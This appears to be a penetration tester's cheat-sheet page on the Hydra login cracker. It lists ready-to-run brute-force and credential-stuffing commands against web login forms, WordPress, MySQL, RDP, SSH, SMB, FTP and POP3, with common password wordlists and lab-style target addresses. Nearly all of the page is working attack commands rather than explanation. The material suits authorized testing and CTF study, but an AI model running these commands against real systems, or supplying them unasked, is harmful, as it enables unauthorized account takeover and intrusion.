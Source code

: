 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - Tooling
  - BruteForcing
---
```

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

## HTTP POST

```
hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"
```

## WordPress

```
hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I
```

## [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|SQL]]

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## [[2. Enumeration/TCP/3389. Remote Desktop Protocol (RDP)/1. Guide|RDP]]

```shell-session
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
## SSH

```
hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh
```

```
hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh
```

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```
## SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

## FTP

```shell-session
hydra -l sam -P mut_password.list ftp://10.129.202.64 -t 64
```

## Credential Stuffing

When you have a list of valid usernames and passwords which you wish to attempt to login using the list:

```shell-session
hydra -C user_pass.list ssh://10.129.42.197
```

## [[2. Enumeration/TCP/25. Simple Mail Transfer Protocol (SMTP)/1. Guide|SMTP]], [[2. Enumeration/TCP/110. Post Office Protocol (POP3)/1. Guide|POP3]], [[2. Enumeration/TCP/143. Internet Message Access Protocol (IMAP)/1. Guide|IMAP]]

```shell-session
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```